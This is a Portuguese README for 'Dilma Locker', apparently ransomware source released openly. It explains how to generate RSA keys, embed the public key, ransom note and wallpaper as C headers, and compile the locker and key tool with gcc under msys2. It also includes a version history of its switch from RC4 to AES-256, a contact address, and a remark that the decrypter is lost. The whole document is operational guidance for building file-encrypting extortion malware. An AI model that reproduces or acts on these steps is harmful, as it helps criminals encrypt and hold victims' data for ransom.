 ﻿# Ransomware Dilma Locker

## Versão
1.4 (22/07/2017)

## Estado do projeto
Abandonado (atingimos a meta e não vamos dobrar a meta).

## Configuração

### Gerando um par de chaves RSA

```bash
master.exe -g
```

### Alterando a chave mestre, wallpaper e nota de resgate

Converte o arquivo usando o master.exe:
```bash
master.exe -h public.dlk
```

Ele vai gerar um arquivo .h parecido com esse:

```c
//arquivo gerado automaticamente
const BYTE data6b657973[276] = {
	0x06, 0x02, 0x00, 0x00, 0x00, 0xa4, 0x00, 0x00, 0x52, 0x53, 0x41, 0x31, 0x00, 0x08, 0x00, 0x00, 
	0x01, 0x00, 0x01, 0x00, 0x57, 0xe2, 0xc6, 0xa0, 0x7f, 0x7a, 0x9f, 0xcd, 0xd9, 0xd4, 0x09, 0x51, 
	0x8c, 0x7e, 0x94, 0x1d, 0xe7, 0xb5, 0xa1, 0x68, 0x0a, 0x0d, 0xf4, 0xbc, 0x7b, 0x4b, 0x3f, 0x4c, 
	0x92, 0xbf, 0xaa, 0xd6, 0xf8, 0x07, 0xfd, 0xe7, 0x6b, 0x1e, 0x28, 0xb0, 0xbc, 0x7a, 0xe9, 0x77, 
	0x24, 0x1e, 0x60, 0x1f, 0x36, 0xe8, 0x87, 0x99, 0x57, 0x23, 0xb1, 0x8c, 0x56, 0xde, 0x72, 0xc7, 
	0xa1, 0xd9, 0x5a, 0xdb, 0x5e, 0xd4, 0x08, 0x6c, 0xb1, 0xdf, 0xe3, 0xbb, 0x67, 0x52, 0x80, 0xb7, 
	0xaf, 0x05, 0x4e, 0x8f, 0x95, 0xf5, 0x50, 0x53, 0xce, 0xc6, 0x56, 0x4d, 0x40, 0x8d, 0x7f, 0xed, 
	0xc3, 0xd1, 0x2b, 0xbe, 0x01, 0x5a, 0xe8, 0x02, 0xca, 0x33, 0xe7, 0xa8, 0x68, 0x0d, 0x91, 0xcb, 
	0xa0, 0x74, 0x88, 0x92, 0x36, 0x03, 0xf9, 0x9b, 0xf8, 0xef, 0x19, 0xbd, 0x61, 0x84, 0xa0, 0x44, 
	0xde, 0x2d, 0xb8, 0x69, 0x8f, 0x6e, 0xe3, 0x2a, 0x79, 0x1f, 0x6b, 0xdc, 0x92, 0x0c, 0x46, 0x08, 
	0xcf, 0xaf, 0xad, 0x71, 0x64, 0x99, 0xee, 0x85, 0x29, 0xc3, 0x4c, 0xe7, 0xcf, 0x32, 0x0e, 0xdf, 
	0x84, 0x15, 0x40, 0x44, 0xa8, 0x6f, 0x19, 0x67, 0xe7, 0xba, 0x0c, 0xef, 0x96, 0x7b, 0x05, 0x10, 
	0x07, 0xa0, 0xa4, 0x73, 0xb3, 0xe7, 0xd6, 0xca, 0x57, 0xb6, 0x1c, 0xdd, 0xdb, 0x9a, 0xfa, 0xe5, 
	0xf3, 0xc8, 0x67, 0xa5, 0x45, 0x84, 0xe0, 0x58, 0x21, 0xa2, 0xb9, 0x85, 0x4d, 0x0a, 0xab, 0x2d, 
	0x4a, 0xa2, 0x81, 0x10, 0xf5, 0x84, 0x5a, 0x25, 0x12, 0x18, 0x92, 0x22, 0x9d, 0xa4, 0x8e, 0x0f, 
	0xa2, 0x5e, 0x49, 0x13, 0x8d, 0xd1, 0xc8, 0xaa, 0xc5, 0x4b, 0x7d, 0x59, 0x5e, 0xf3, 0xdf, 0x7a, 
	0x86, 0xad, 0xec, 0x58, 0x20, 0xda, 0x6f, 0x5b, 0xde, 0x8c, 0x7c, 0xc6, 0x67, 0xc7, 0x27, 0x41, 
	0xc8, 0x2b, 0x1f, 0xb4};

DWORD size6b657973 = 276;
```

Coloque esse arquivo dentro de src/header/ e modifique o config.h adicionando um #include

No dilma.c troque as seguintes variáveis pelas variáveis geradas no header:

```txt
data6b657973 -> chave publica
size6b657973 -> tamanho da chave publica

data6e6f7461 -> nota de resgate
size6e6f7461 -> tamanho da nota de resgate

data6261636b -> wallpaper
size6261636b -> tamanho do wallpaper
```

## Compilação
Baixe o [msys32](https://www.msys2.org) no site oficial.

#### Atualize os repositórios:

```bash
pacman -Syu
``` 

#### Instale o compilador:

```bash
pacman -S mingw-w64-i686-toolchain
```

#### Compilação do master.exe

```bash
gcc master.c -o ../bin/master.exe --std=c18 -Os -O1 -Wall -Wextra && strip --strip-all --discard-all ../bin/master.exe
```

#### Compilação do Dilma Locker:

```bash
gcc dilma.c -o ../bin/dilma.exe --std=c18 -lpthread -lshlwapi -static -mwindows -Os -O1 -Wall -Wextra && strip --strip-all --discard-all ../bin/dilma.exe

```

## Sobre
1.0 -> versão beta, tinha mais bugs que os sites do governo.
  * Foi usado RC4 ao invés de AES.

1.1 -> segunda versão, corrigido alguns bugs mas ainda faltava algo
  * Mudado a criptografia de RC4 para AES 256 bits.

1.4 -> terceira versão, reescrita do zero e corrigido alguns bugs. Foi lançada um mês após a primeira versão.
  * Refeito para deixar o código fonte mais bonito.

## Dever de casa
Perdemos o código do decrypter, então você terá que coda-lo.

## Contato

suportdilmalocke@protonmail.com

Pedidos
-------

**Faça bom uso deste programa, não nos responsabilizamos pelo uso inadequado deste conteúdo.**

**Mc Hackudão faz uma música pra nois ae <3!**
